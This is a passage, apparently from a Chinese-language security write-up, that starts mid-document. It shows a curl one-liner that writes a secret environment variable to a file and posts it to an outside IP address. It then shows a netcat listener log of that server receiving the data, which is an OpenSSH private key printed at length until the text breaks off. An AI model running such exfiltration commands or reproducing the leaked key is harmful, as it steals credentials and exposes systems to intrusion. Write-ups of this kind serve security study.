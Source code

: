 ```bash
`echo "${KEY}" > key && curl -v -F file=@key http://121.5.169.223:39556`
```

[![](assets/1699929835-054f913854ea5971034b2d546821663f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109134050-8a5b337e-7ec2-1.png)

服务器上可以收到 key：

```bash
nc -lvvp 39556
Listening on [0.0.0.0] (family 0, port 39556)
Connection from 36.112.200.147 16519 received!
POST / HTTP/1.1
Host: 121.5.169.223:39556
User-Agent: curl/7.74.0
Accept: */*
Content-Length: 2805
Content-Type: multipart/form-data; boundary=------------------------ab4b01bd9df8bad8

--------------------------ab4b01bd9df8bad8
Content-Disposition: form-data; name="file"; filename="key"
Content-Type: application/octet-stream

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzKMQY9T7R2JBDjFuxCxQWxKI9Nf39EdewMpSYfgR4AslScEzJJX0
O3lfkq1jalL4zp066bFkU21M3p42hVgXnBrcVOR7JU3FiEFDw4qfE2CcJTXFHL4obAqFiy
cp6RxsIjRIoRz8zrBI57k8CyhqZK104xt79XDkWcDnA7lctBwq9Dq9vxsK8SqXvW4cJTu7
osoyMitO3RP3x0EYocsNNnTDNBj1JIMsfmSkOu503LFZqAuqhchKm7BcnpeOYT2qKRuFqv
BowklegCZRWZNWSVI1lGhUQQ3wDgEk0dqUPzHlOhDx4hNAeT/RXttllY+lxci00EFmjRs3
XXgculpXRs3cyC+T3Itn4rQoE5AV5191mIuwufozXCiGgFhOKfOmYe8ZHCcI09pmT2xZ9m
Cpq5VharLKHR3ku4yy3NEYZrOcNvhIfSlkFCTYV5IKXr9VcS3f+KMNrBgvEF0tEqo3sy87
1bbUInjCTViMvCS8G2uFQlnvMRiW4+FNyCcSUqpBAAAFkAzpeAEM6XgBAAAAB3NzaC1yc2
EAAAGBAMyjEGPU+0diQQ4xbsQsUFsSiPTX9/RHXsDKUmH4EeALJUnBMySV9Dt5X5KtY2pS
+M6dOumxZFNtTN6eNoVYF5wa3FTkeyVNxYhBQ8OKnxNgnCU1xRy+KGwKhYsnKekcbCI0SK
Ec/M6wSOe5PAsoamStdOMbe/Vw5FnA5wO5XLQcKvQ6vb8bCvEql71uHCU7u6LKMjIrTt0T
98dBGKHLDTZ0wzQY9SSDLH5kpDrudNyxWagLqoXISpuwXJ6XjmE9qikbharwaMJJXoAmUV
mTVklSNZRoVEEN8A4BJNHalD8x5ToQ8eITQHk/0V7bZZWPpcXItNBBZo0bN114HLpaV0bN
3Mgvk9yLZ+K0KBOQFedfdZiLsLn6M1wohoBYTinzpmHvGRwnCNPaZk9sWfZgqauVYWqyyh
0d5LuMstzRGGaznDb4SH0pZBQk2FeSCl6/VXEt3/ijDawYLxBdLRKqN7MvO9W21CJ4wk1Y
jLwkvBtrhUJZ7zEYluPhTcgnElKqQQAAAAMBAAEAAAGAResRFosWr/UqNSc+qVhavENA+C
cyWQxpm4WFUGPp95rXSrPwPXfe0tNNjFght5pR2IZwMpihpr+ZnBaCmlzW9EdZMMhAKya/
byadeJpMb9p6f1w31PJD7WZK6pifAT7s02L5zdKRri0dO89WbJmKgIujfFVPrTS9UM1QIT
2cJw3Yv0myuzEKNAxRfC+6/h3CpoRfUjTp5S+FYVcki2NNSGXsrEg6uhb3hNfuJRSEaUNP
VtNlmAAvPbKscqNlymO+u1EP9W34UDRCNqGdLZxFs651a50qmmQvTAMYHCOTFUE3ChGnEI
BGLEtsOkYKlEnQg5qQIHKLJExH0a2b0fVFrGK7dcVK3kc7xLgGwvxuFvKl4DeMgCX5q85g
02Mu9Odcsio7t6Go6sXTiB3V/Idbzcp3zbO3B76AQDzhjzTtGYONPR+aDthfnJIJhyxRJg
maE9IHWIpiWe0gzjnSs4HBGqF0F6Rr/XIbjN/53wBmyMO6eVq2wAHbRu/NEgisctfhAAAA
wQCuImeTnL8fGofb3jTAYeckTPiUsM2RsshSbwlZaX3TR4TWNu0mcc94hYButIcG2SMVXc
F4i9jl6cdgAff43uoPy8GKiGc9jF4eylky4c4fgw7EzbtFMPmpFnteA/Oh0SxlxhmUDVHU
mxRkssDSI7Zif6z2KaT3Z9yK92y/265Sm2gkIUshm2BNplgssCdIkNtqZaePBmHr6/09oJ
hRSJmmgkesx7TJ9BqVuuiZdn3E71XNHsbBOyD08cLrZEoNtjkAAADBAPKW8trXU/H85DOl
```